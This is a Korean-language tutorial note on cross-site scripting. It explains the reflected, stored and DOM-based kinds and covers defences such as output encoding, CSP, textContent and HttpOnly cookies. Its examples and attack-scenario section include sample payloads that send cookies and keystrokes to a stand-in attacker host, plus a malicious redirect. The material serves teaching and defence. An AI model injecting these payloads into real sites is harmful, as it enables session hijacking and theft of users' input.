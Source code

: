 # **XSS (Cross-Site Scripting)**

: 웹사이트에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되도록 만드는 해킹 방법

공격자는 이를 이용해 쿠키 탈취, 세션 하이재킹, 피싱, 키로깅 등을 수행할 수 있다.

<br>
<br>

## **XSS 공격의 종류**

XSS 공격은 실행 방식에 따라 크게 **반사형(Reflected)**, **저장형(Stored)**, **DOM 기반(DOM-based)** 세 가지로 나뉜다.

<br>

### 1. 반사형 XSS (Reflected XSS)

: 공격자가 조작한 URL을 피해자가 클릭하면, 서버가 악성 스크립트를 포함한 응답을 반환하여 실행되는 방식

스크립트가 포함된 공격용 악성 URL을 만든 뒤, 사용자가 해당 URL을 클릭했을 때 정보를 획득하는 공격이다.
URL이 길면 클라이언트가 의구심을 가질 수 있기 때문에 URL 단축을 이용해 짧은 URL로 만들어 공격하기도 한다.

사용자가 특정 파라미터에 입력한 값을 서버가 응답으로 반사해서 보내줄 때 발생하며
서버에 스크립트를 저장하는 것이 아니므로 서버의 필터링을 피할 수 있다.

- URL을 만들어 클릭해 실행되게 하는 방식으로 **특정인을 대상**으로 한다.
- **URL 파라미터 데이터가 그대로 서버 응답에 삽입**되어 오는 곳에서 발생한다. 즉, 요청과 응답 페이지가 동일해야 한다.
- POST 방식은 공격에 활용할 여지가 없기 때문에 데이터 전달은 **GET 방식**이어야 한다.

<br>

공격자는 다음과 같은 URL을 생성한다.

````php-template
https://example.com/search?q=<script>alert('Hacked!');</script>```
````

피해자가 이 URL을 클릭하면, 서버는 `q`값 그대로 응답에 포함해 브라우저가 실행된다.

브라우저는 `<script>alert('Hacked!');</script>` 코드(예시)를 실행한다.

심각한 경우, 공격자는 세션 쿠키를 탈취할 수 있다.

<br>

### 2. 저장형 XSS (Stored XSS)

: 공격자가 직접 악성 스크립트를 데이터베이스에 저장하고, 해당 데이터를 웹 페이지에서 로드할 때 실행되는 방식

취약한 웹 서버에 악성 스크립트를 심어놓고, 사용자가 접근하면 해당 스크립드가 실행되는 공격이다.

보통 서버에서 필터링을 하기 때문에 공격을 우회하기 어렵지만, 한 번 성공하면 관리자 입장에서는 눈치채기 힘들고 **광범위한 피해**를 줄 수 있다는 것이 특징이다.

- 데이터가 **저장**되고, **출력**되는 곳에서 발생한다. 저장되는 페이지와 출력되는 페이지는 달라도 상관 없다.
- **접근하는 모든 사람에게 공격이 가능**하기 때문에 광역 수준의 위험도를 가진다.

<br>

공격자가 댓글이나 게시글 입력란에 악성 스크립트를 입력한다.

```php-template
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

서버는 해당 내용을 데이터베이스에 저장한 후, 페이지 로딩시 그대로 출력한다.

이후 페이지를 방문한 사용자들의 브라우저에서 스크립트가 실행되면서 쿠키가 공격자 서버로 전송된다.

공격자는 쿠키를 탈취하여 세션을 가로채거나 피해자의 계정에 접근할 수 있다.

<br>

### 3. DOM 기반 XSS (DOM-based XSS)

: 서버 응답이 아니라, 클라이언트 측 자바스크립트에서 DOM 조작을 통해 실행되는 방식

Reflected XSS와 Stored XSS 공격이 서버의 취약점을 이용해서 악성 스크립트가 포함된 응답 페이지를 전달하는 것인 반면,
DOM XSS는 서버와 관련없이 클라이언트 측에서 파라미터를 처리할 때 발생한다.

DOM XSS 공격은 사용자가 공격자에 의해 조작된 URL을 클릭하는 순간 악성 스크립트가 실행되면서 사용자 브라우저를 공격한다.

<br>

웹사이트가 URL 파라미터에서 데이터를 읽어 innerHTML에 삽입하는 경우

```javascript
document.getElementById("output").innerHTML = location.search;
```

<br>

공격자가 다음과 같은 URL을 생성한다.

```php-template
https://example.com/page?name=<script>alert('XSS!');</script>
```

페이지를 방문하면 `innerHTML`을 통해 `<script>`태그가 삽입되고 실행된다.

<br>
<br>

## **XSS 방어 방법**

### 1. 입력 값 검증 (Input Validation)

HTML, JavaScript, SQL 등에서 사용되는 특수문자를 필터링 한다.

`<`, `>`, `"`, `'`, `/`, `&` 등을 제거하거나 변환(escape)

<br>

### 2. 출력 시 인코딩 (Output Encoding)

서버에서 클라이언트로 데이터를 출력할 때 HTML Entity 인코딩을 적용한다.

```php
echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
```

`<script>` → `&lt;script&gt;`로 변환되어 실행되지 않는다.

<br>

### 3. CSP(Content Security Policy) 적용

스크립트 실행을 제한하는 보안 정책을 설정한다.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'" />
```

외부에서 제공되는 스크립트를 차단한다.

<br>

### 4. JavaScript에서 `innerHTML` 대신 `textContent` 사용

`innerHTML`을 사용하면 악성 코드가 실행될 위험이 있다.

```javascript
document.getElementById("output").textContent = location.search;
```

<br>

### 5. 쿠키에 `HttpOnly` 옵션 적용

`HttpOnly`를 설정하면 JavaScript에서 `document.cookie`로 접근할 수 없으므로 쿠키 탈취를 방지할 수 있다.

```php
setcookie("session", "abcdef", [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict'
]);
```

<br>
<br>

## **XSS 공격 시나리오**

### 1. 쿠키 탈취

```php-template
<script>
new Image().src = "http://공격자사이트.com/~~?cookie=".concat(document.cookie);
</script>
```

<br>

### 2. 악의적인 페이지로 리다이렉트

```php-template
<script>
location.href = "https://악의적인사이트.com/~~"
</script>
```

<br>

### 3.키로거를 이용한 정보 탈취

```javascript
el.addEventListener("keyup", () => {
  new Image().src = "http://공격자사이트.com/~~?cookie=".concat(event.key);
});
```
